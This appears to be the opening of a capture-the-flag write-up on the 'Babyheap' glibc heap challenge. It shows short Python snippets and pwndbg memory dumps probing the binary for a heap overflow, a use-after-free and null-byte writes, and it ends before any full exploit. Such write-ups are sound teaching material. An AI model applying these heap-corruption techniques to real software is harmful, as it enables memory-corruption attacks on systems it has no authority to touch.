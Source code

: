 # Babyheap
### Prequisite Knowledge
Get your head around glibc heap implementation: https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/ (LIKE THIS IS REALLY IMPORTANT SO READ IT)  
Get yourself some juicy source code: https://www.sourceware.org/ml/libc-alpha/2016-08/msg00212.html

I will make the assumption that you have read AND understood the above resources in this writeup. Also note that to save space I will refer directly to the python functions I used to interact with the program (this should be self-explanatory when you see it).

### Understanding The Program - Initial Investigation
Playing around with the binary, we notice that there are 4 functions:
1. Allocate
2. Fill
3. Dump
4. Exit

The first thing I tried was to get an overflow. This was achieved by allocating a chunk and then filling it with a specified size greater than that originally given:
```
p = gdb.debug(binary, 'continue')
allocate(p, 0x10)
fill(p, 0, "A"*0x20)
p.interactive()
```
```
Program received signal SIGINT
pwndbg> vmmap
    ...
    0x55dbaf369000     0x55dbaf38a000 rw-p    21000 0      [heap]
    
pwndbg> x/8gx 0x55dbaf369000
0x55dbaf369000:	0x0000000000000000	0x0000000000000021
0x55dbaf369010:	0x4141414141414141	0x4141414141414141
0x55dbaf369020:	0x4141414141414141	0x4141414141414141
0x55dbaf369030:	0x0000000000000000	0x0000000000000000
```
I then tried to see if there was a trivial use-after-free:
```
allocate(p, 0x10)
fill(p, 0, "A"*0x20)
free(p, 0)
```
Sadly no output was to be seen.

The final experiement I tried was to write null-bytes (was strncpy or read being used?):
```
allocate(p, 0x10)
fill(p, 0, "A\x00\x00A")
```
```
pwndbg> x/6gx 0x555c7ea54000
0x555c7ea54000:	0x0000000000000000	0x0000000000000021
0x555c7ea54010:	0x0000000041000041	0x0000000000000000
0x555c7ea54020:	0x0000000000000000	0x0000000000020fe1
```
Woooh we can write NULL bytes, which might make things easier later xD
